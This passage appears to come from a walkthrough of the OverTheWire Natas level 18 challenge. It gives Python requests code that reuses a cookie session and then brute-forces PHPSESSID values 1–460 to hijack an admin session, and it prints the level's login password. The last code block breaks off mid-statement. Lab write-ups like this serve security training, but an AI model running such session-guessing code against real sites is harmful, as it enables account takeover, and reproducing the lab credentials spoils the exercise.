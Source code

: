 while the following code:

```py
sess = requests.Session()

auth_username = 'natas18'

auth_password = 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'

_payload = {'username':'admin', 'password':'admin'}

response = sess.get('http://natas18.natas.labs.overthewire.org/index.php', auth=HTTPBasicAuth(auth_username, auth_password))

response = sess.post('http://natas18.natas.labs.overthewire.org/index.php', auth=HTTPBasicAuth(auth_username, auth_password), data= _payload)

response = sess.get('http://natas18.natas.labs.overthewire.org/index.php', auth=HTTPBasicAuth(auth_username, auth_password))
```

```s
Please login ....

You are logged in as a regular user ...

You are logged in as a regular user ...
```

In the second example, we have cookie persistance because of the opened session. This is our entry into session hijacking.

```py
def session_handling():
    
    sess = requests.Session()

    auth_username = 'natas18'

    auth_password = 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'

    _payload = {'username':'nimish', 'password':'nimish'}
    

    response = sess.post('http://natas18.natas.labs.overthewire.org/index.php', auth=HTTPBasicAuth(auth_username, auth_password), data= _payload)
    
    for i in range(1, 461):
        new_cookie = RequestsCookieJar()

        new_cookie.set(name="PHPSESSID", value=str(i), domain='natas18.natas.labs.overthewire.org', path="/")

        sess.cookies.update(new_cookie)

        response = sess.get('http://natas18.natas.labs.overthewire.org/index.php', auth=HTTPBasicAuth(auth_username, auth_password))

        try:

            response.text.index("are logged in as a regular")

            print(str(i) + " non admin account")
        
        except:
        
```